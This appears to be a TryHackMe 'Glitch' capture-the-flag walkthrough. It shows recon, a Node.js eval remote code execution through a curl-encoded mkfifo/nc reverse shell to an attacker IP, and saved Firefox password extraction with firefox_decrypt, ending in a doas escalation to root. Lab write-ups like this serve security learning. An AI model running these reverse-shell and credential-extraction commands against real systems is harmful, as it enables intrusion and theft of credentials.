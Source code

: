 ![](Images/glitch.png)

What we can learn from this machine ?
* nodejs
* wfuzz usage
* firefox-decrypter tool usage
* curl 

Let's run a nmap scan first. 
```
# Nmap 7.91 scan initiated Mon Jun 14 14:44:57 2021 as: nmap -sC -sV -p- -oN nmap-allport-scan 10.10.181.74
Nmap scan report for 10.10.181.74
Host is up (0.18s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 14 14:55:04 2021 -- 1 IP address (1 host up) scanned in 607.17 seconds
```
We only got a port 80 open. Let's see whats in there.

![](Images/web.png)

We need to add this ip to host file. first I didn't put a ip in host file it gives me a error. Let's run a gobuster let's see what we got.

```
/js                   (Status: 301) [Size: 171] [--> /js/]
/img                  (Status: 301) [Size: 173] [--> /img/]
/secret               (Status: 200) [Size: 724]
/Secret               (Status: 200) [Size: 724
```
Look's like we got two directories with same name. Only difference is lower case and upper case. When you go into the **/Secret** you can see this. :)

![](Images/rabbits.png)

Great!! Nothing useful found.

## What is your access token?
When we look into the website source code, 

![](Images/page%20source.png)

If we take a close look into that we can see this code.
```js
<script>
      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    </script>
```
We can see that we have javascript function **getAcccess** but it does not appear to be called. Let's open developer tools and in the console tab type getAccess().

![](Images/console.png)

Our output :
Object { token: "dGhpc19pc19ub3RfcmVhbA==" }

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $echo "dGhpc19pc19ub3RfcmVhbA==" | base64 -d
this_is_not_real┌─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $
```

After we decode the base64 string we can see it gives **this_is_not_real**.

We need to put the decode value into the cookie.

![](Images/cookie.png)

After the page refresh you can get this hidden web page.

![](Images/unknown.png)

## What is the content of user.txt?
Looking around we have an **/api/items** which we can get with a username/password. If we try to post to this we get the below message.

```bash
┌─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $curl -X POST http://glitch.thm/api/items
{"message":"there_is_a_glitch_in_the_matrix"}┌─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $
```
Let's see if we can find arguments for **items** to take, I use this command to run the wfuzz.

```bash
wfuzz -c -z file,/opt/seclist/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 http://glitch.thm/api/items\?FUZZ\=test
```
Let's see this in action.

![](Images/wfuzz.png)

OK, we have cmd let take a look at the 500 response. So this looks like a nodejs application. Looking at eval (eval at router.post) it is trying to pass our argument to eval, Doing a quick Insert search verb here for nodejs eval rce I end up at this blog post.

https://medium.com/@sebnemK/\node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44 

Using the method from here with our reverse shell **url encoded** via curl we get a call back. This was mine curl command btw you can also do this with burpsuit.

```bash
┌─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $curl -X POST http://glitch.thm/api/items?cmd=require%28%22child_process%22%29.exec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.9.2.182%204444%20%3E%2Ftmp%2Ff%27%29%0A
vulnerability_exploited [object Object]┌─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $
```
We got our call back and a message **vulnerability_exploited**. let's get our **user flag**.

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Glitch]
└──╼ $nc -lvnp 4444
listening on [any] 4444 ...
$ python -c 'import pty;pty.spawn("/bin/bash")'
user@ubuntu:/var/web$ cd /home
cd /home
user@ubuntu:/home$ ls
ls
user  v0id
user@ubuntu:/home$ cd user
cd user
user@ubuntu:~$ ls
ls
user.txt
user@ubuntu:~$ cat user.txt
cat user.txt
THM{i_don't_********}
```
## What is the content of root.txt?
After run linpeas I found this,

![](Images/linpeas1.png)

Nothing really of any help, **doas** requires that we PrivEsc to v0id first. Digging around I find a **.firefox** directory in our home.

```bash
user@ubuntu:~$ ls -la
ls -la
total 52
drwxr-xr-x   9 user user  4096 Jun 14 10:41 .
drwxr-xr-x   4 root root  4096 Jan 15 14:13 ..
lrwxrwxrwx   1 root root     9 Jan 21 09:05 .bash_history -> /dev/null
-rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
drwx------   2 user user  4096 Jan  4 13:41 .cache
drwxr-x---   3 user user  4096 Jun 14 10:41 .config
drwxrwxrwx   4 user user  4096 Jan 27 10:32 .firefox
drwx------   4 user user  4096 Jun 14 10:42 .gnupg
drwxr-xr-x 270 user user 12288 Jan  4 14:07 .npm
drwxrwxr-x   5 user user  4096 Jun 14 10:21 .pm2
drwx------   2 user user  4096 Jan 21 08:47 .ssh
-rw-rw-r--   1 user user    22 Jan  4 15:29 user.txt
```
I copy this off and run tool called firefox decrypt against it see anything we can get in here.

Firefox decrypt tool: https://github.com/unode/firefox_decrypt.git

```bash
┌─[visith@parrot]─[~/CTF/thm/Glitch/.firefox]
└──╼ $./firefox_decrypt.py b5w4643p.default-release
2021-06-14 17:08:12,558 - WARNING - profile.ini not found in b5w4643p.default-release
2021-06-14 17:08:12,558 - WARNING - Continuing and assuming 'b5w4643p.default-release' is a profile location

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
```
We got the password now we can log into the **v0id** user.
```bash
user@ubuntu:~$ su v0id
su v0id
Password: love_the_void
v0id@ubuntu:/home/user$ sudo -l
sudo -l
[sudo] password for v0id: love_the_void
Sorry, user v0id may not run sudo on ubuntu.
v0id@ubuntu:/home/user$ 
```
We can't run sudo here. But we know we can run **doas** like this and we can get into the root user.

```bash
v0id@ubuntu:/home/user$ doas -u root /bin/bash
doas -u root /bin/bash
Password: love_the_void
root@ubuntu:/home/user# cd /root
cd /root
root@ubuntu:~# ls
ls
clean.sh  root.txt
root@ubuntu:~# cat root.txt
cat root.txt
```
Thx for reading!! 

Have a nice day...